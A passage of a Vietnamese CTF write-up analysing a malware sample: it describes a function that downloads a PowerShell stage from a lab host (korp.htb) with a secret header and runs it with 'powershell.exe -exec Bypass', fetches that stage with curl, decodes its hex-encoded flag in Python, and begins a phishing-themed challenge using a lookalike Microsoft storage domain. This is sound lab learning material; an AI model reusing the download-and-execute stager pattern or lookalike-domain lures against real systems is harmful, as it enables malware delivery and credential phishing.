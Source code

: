 Hàm `aqFVaq` thực hiện 2 nhiệm vụ:  

1. Tải file `a541a.ps1` từ `http://korp.htb/a541a` với header `X-ST4G3R-KEY: 5337d322906ff18afedc1edc191d325d`.  
2. Chạy file vừa tải bằng `powershell.exe -exec Bypass`.

Hmmm, có vẻ chúng ta sẽ thử tải file `a541a.ps1` để xem nó thực thi gì

Để tải file chúng ta sẽ dùng curl với options -H (thêm Headers) để server chấp nhập request và -o (để lưu file)
```bash
$ curl -H "X-ST4G3R-KEY: 5337d322906ff18afedc1edc191d325d" http://korp.htb:[port]/a541a -o a541a.ps1
```

Sau khi tải về và `cat` file chúng ta nhận được
```bash
$ a35 = "4854427b37683052314e5f4834355f346c573459355f3833336e5f344e5f39723334375f314e56336e3730727d"
($a35-split"(..)"|?{$_}|%{[char][convert]::ToInt16($_,16)}) -join ""
```

Mình sẽ dùng AI để viết script python giải bài này
```python
a35 = "4854427b37683052314e5f4834355f346c573459355f3833336e5f344e5f39723334375f314e56336e3730727d"
result = ''.join(chr(int(a35[i:i+2], 16)) for i in range(0, len(a35), 2))
print(result)
```

Sau khi giải ta được flag

>Flag: HTB{7h0R1N_H45_4lW4Y5_833n_4N_9r347_1NV3n70r}

### Chall name: A new Hire
>The Royal Archives of Eldoria have recovered a mysterious document—an old resume once belonging to Lord Malakar before his fall from grace. At first glance, it appears to be an ordinary record of his achievements as a noble knight, but hidden within the text are secrets that reveal his descent into darkness.

File email.eml đính kèm
```
You can review his resume here:
`storage.microsoftcloudservices.com:[PORT]/index.php`

Please let us know if you would like to proceed with the next steps in the hiring process.

Best regards,
Elowan

PS: Make sure you replace the '[PORT]' with your instance's port. Additionally, make sure that any hostnames that are found point to your instance's IP address!
```

Có vẻ như bài gợi ý chúng ta cần phải thêm domain `storage.microsoftcloudservices.com` trỏ đến IP Docker XX.XXX.XX.XXX
```bash
$ echo "XX.XXX.XX.XXX storage.microsoftcloudservices.com" | sudo tee -a /etc/hosts
```
